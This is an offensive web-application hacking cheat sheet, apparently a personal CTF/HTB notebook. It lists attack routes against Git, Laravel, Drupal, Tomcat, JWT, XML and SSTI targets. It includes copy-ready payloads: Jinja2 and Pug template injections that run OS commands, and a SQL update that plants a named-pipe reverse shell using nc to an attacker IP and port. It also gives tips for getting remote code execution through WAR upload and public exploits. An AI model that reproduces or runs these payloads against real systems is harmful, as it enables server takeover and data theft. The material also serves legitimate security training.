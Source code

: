 ## Git related stuff
First we download all the files from the .git folder from `wget -r http://HOSTNAME/.git`
1. `git log "some file"` to get its hit history along with the hash of the commit
2. `git diff "hash1" "hash2" "some file"` to get the differences of the content of the file in between those 2 commits

Note: The hash is nothing but a file path in the object directory which is the compressed version of the target file, encoded as first 2 chars is the parent directory and the rest is the file path. For eg:- if 583aa7debb21f1b5bd6a0316e40d8df102fa1322 is a commit hash then we can go to .git/objects/58/3aa7debb21f1b5bd6a0316e40d8df102fa1322 to get compressed version of the file, which we can then decompress using this python onliner `import zlib;print(zlib.decompress(open('').read("FILENAME")));`, FILENAME being the file where we have saved the compressed version of the file taken from the objects directory

## Execute after Read
If we have a page which gives a 302 and redirects us to another page, and doesnt have a die(); in its php, then even though our browser will redirect to the location specified in the header by reading 302 code but with an interceptor like burp we can get the contents of the entire current file, which could reveal info, like URL's n stuff. Andf if we want to render that page in the browser then we can intercept the response too from burp, and change the 302 found to a 200 OK and our browser will render it

## If we can confirm an SSRF and want to access internal services like any internal webapp, or internal ftp service but cant due to blacklistings
Then we can host a 301 redirctor link to the director here: https://gist.github.com/TheHackerDev/853b17e9f03c6d5a1cebd9556327e94c. Using this, we can make the server GET our page (which isnt blocked by the blacklist) which will redirect it to localhost, or any other website of our choice.

## If we have a node.js app and it uses pug js and flat js we can do an AST prototype pollution
This attack can be performed else where too, just that we know too little about it for now, to make it work else where, more on this in here https://blog.p6.is/AST-Injection/

## If we have a laravel app
### If the version is through 5.5.40 and 5.6.x through 5.6.29
If we have its base64 encoded APP_KEY then we can use this https://github.com/AlienX2001/better-poc-for-CVE-2018-15133 to get an rce on the machine

## In case of an adminer instance
https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f

## for drupal CMS
### If we engage with drupal CMS including 8.5 prior to 8.5.1, 7.x prior to 7.58 and all version of Drupal 6.
Then we can use drupalgeddon2.0 exploit

## If via burp or from the page source analysis we see that the webapp is working with xml
Then we can check for xxe, more on that here https://portswigger.net/web-security/xxe and https://www.synack.com/blog/a-deep-dive-into-xxe-injection/

## If we are working with JWT
If we somehow get a hold of the algorithm key, if its using HS256/RS256 algorithm then we can craft our own jwt signed with the leaked key to get access
If we see that the key is getting imported from a remote location and if we can somehow change that parameter, then we can put our own server in there and then sign the jwts from our own server's key and still get access to sensitive info

## If we manage to get hold of the aws dynamoDB js shell
We can use the templates and extract information about the DB and use those in the aws cli to get code exec

## In support portals if we get email addresses to contact to
Then we might be able to leverage that to get private emails as was with the case with HTB's delivery box, can refer writeups of the same to know more

## We can also find for SSTI
1. For python webapps(flask/jinja2), we can put in `{{request.application.__globals__.__builtins__.__import__('os').popen('CMD').read()}}` to get RCE

2. For noedjs webapps(pugjs), we can put in `#{global.process.mainModule.constructor._load("child_process").exec("CMD+>+static/css/main.css",(err,stdout,stderr)=>{(console.log(stdout))})}` to get RCE, here we redirect the output to a file which we can access via the webapp because the output of the execution will get reflected in the console, which we do not have access to, so it is better to redirect the output to a file which we can reload to get our info

## If we are running an apache tomcat 
### If they are any of the following Apache Tomcat 10.x < 10.0.0-M5, Apache Tomcat 9.x < 9.0.35, Apache Tomcat 8.x < 8.5.55. Apache Tomcat 7.x < 7.0.104
Then we can follow through this blog to get RCE https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/ and we can use ysoserial to get our serialized payload. To transfer non text stuff from terminal to burp, its best to print out non text's base64 string, copy that to burp and then decode, that way there will be no corruption of bits
#### PS: php also has a deserialization bug like java applets

## If we have a wp page
Then we can use wpscan to scan through the plugins and other stuff. Usually wp plugins tend to be vulnerable since they are 3rd party made

## For getting OS cmd shell from sql
If we have MSSQL, with right perms we can use xp_cmdshell to get os cmd exec
If we have Mysql, with right perms we can use the following payload to get os cmd exe `update settings set value='mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f' where name='path_php_binary';-- -`, we exploited this in some version of cacti, which can be found here https://github.com/Cacti/cacti/issues/3622, but this might be exploitable in other environments

## We can also use the --eval flag of burp to dynamically change the payload by python scripts, and directly ysing the param vars as vars in the python oneliner
## If we have the manager-script role with a user in apache tomcat then we can upload a war file and get a reverse shell
## If we have RCE via any webapp, but quotes, / doesnt work then to pass commands with spaces we can use \`"Commmand here"\`, this may not give output, since it will treat the output of the command entered as a command, but since since it evaluates the <Command here>, hence we can use this to get access, even rev shells, An example: \`cat /flagfTXY4 > something\`

## Some misc notes
1. Once we also got an instance where, in a POST request, we could double submit a parameter to the server by adding the parameter in the cookies as well as the data of the POST request
2. svn is also very much like git cli
